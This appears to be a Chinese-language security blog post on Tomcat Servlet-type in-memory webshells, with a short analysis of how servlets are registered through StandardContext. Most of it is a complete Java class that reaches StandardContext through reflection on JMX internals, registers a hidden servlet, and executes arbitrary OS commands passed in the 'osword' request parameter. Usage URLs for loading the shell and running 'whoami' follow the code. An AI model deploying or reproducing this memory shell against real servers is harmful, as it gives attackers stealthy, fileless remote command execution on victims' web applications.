




Tomcat Servlet型内存shell
分析
在tomcat中Servlet通过web.xml解析载入容器中，而需要载入Servelt最后会被Wrapper类包装,通过debug分析，该Wrapper是通过StandardContext生成。所以只要反射获取StandardContext就能成功注册恶意Servlet.
环境
debian+Tomcat 7.0.94+jdk8u121
流程
以下是Servlet载入内存的调用栈，通过addChild将Servlet载入Children属性中，在configureContext方法能够看到恶意Servlet封装进Wrapper类的过程

跟进WebXml.configureContext方法.将Servlet相关属性载入Wrapper类中,而该Wrapper通过当前StandardContext构造.

最后将一个个child封装进children中.

最后构造如下
package com.tomcat.test.context;
import com.sun.jmx.mbeanserver.NamedObject;
import org.apache.catalina.Wrapper;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.startup.Tomcat;
import org.apache.tomcat.util.modeler.Registry;
import javax.management.MBeanServer;
import javax.servlet.*;
import javax.servlet.http.*;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
public class shellServlet extends HttpServlet {
static {
try{
MBeanServer mBeanServer = Registry.getRegistry(null, null).getMBeanServer();
// 获取mbsInterceptor
Field field = Class.forName("com.sun.jmx.mbeanserver.JmxMBeanServer").getDeclaredField("mbsInterceptor");
field.setAccessible(true);
Object mbsInterceptor = field.get(mBeanServer);
// 获取repository
field = Class.forName("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor").getDeclaredField("repository");
field.setAccessible(true);
Object repository = field.get(mbsInterceptor);
// 获取domainTb
field = Class.forName("com.sun.jmx.mbeanserver.Repository").getDeclaredField("domainTb");
field.setAccessible(true);
HashMap<String, Map<String, NamedObject>> domainTb = (HashMap<String,Map<String,NamedObject>>)field.get(repository);
// 获取domain
NamedObject nonLoginAuthenticator = domainTb.get("Catalina").get("context=/,host=localhost,name=NonLoginAuthenticator,type=Valve");
field = Class.forName("com.sun.jmx.mbeanserver.NamedObject").getDeclaredField("object");
field.setAccessible(true);
Object object = field.get(nonLoginAuthenticator);
// 获取resource
field = Class.forName("org.apache.tomcat.util.modeler.BaseModelMBean").getDeclaredField("resource");
field.setAccessible(true);
Object resource = field.get(object);
// 获取context
field = Class.forName("org.apache.catalina.authenticator.AuthenticatorBase").getDeclaredField("context");
field.setAccessible(true);
StandardContext standardContext = (StandardContext) field.get(resource);
Wrapper wrapper = standardContext.createWrapper();
wrapper.setName("shellServlet");
wrapper.setServletClass("com.tomcat.test.context.shellServlet");
wrapper.setServlet(new com.tomcat.test.context.shellServlet());
standardContext.addChild(wrapper);
standardContext.addServletMapping("/shellServlet","shellServlet");
}catch (Exception e){
e.printStackTrace();
}
}
private String message;
public void init() throws ServletException
{
}
public void doGet(HttpServletRequest request,
HttpServletResponse response)
throws ServletException, IOException
{
System.out.println(":::::::::::::::::::::::::::::::::::::::Tomcat Servlet Shell:::::::::::::::::::::::::::::::::::::::");
String cmd;
if ((cmd = request.getParameter("osword")) != null) {
Process process = Runtime.getRuntime().exec(cmd);
java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
new java.io.InputStreamReader(process.getInputStream()));
StringBuilder stringBuilder = new StringBuilder();
String line;
while ((line = bufferedReader.readLine()) != null) {
stringBuilder.append(line + '\n');
}
response.getOutputStream().write(stringBuilder.toString().getBytes());
// 设置响应内容类型
response.setContentType("text/html");
response.getOutputStream().flush();
response.getOutputStream().close();
}
}
public void destroy()
{
}
}利用
1.http://127.0.0.1:8089/injectServlet访问载入shellServlet
2.http://127.0.0.1:8089/shellServlet?osword=whoami 执行

参考链接
本博客所有文章除特别声明外，均采用 CC BY-SA 4.0 协议 ，转载请注明出处！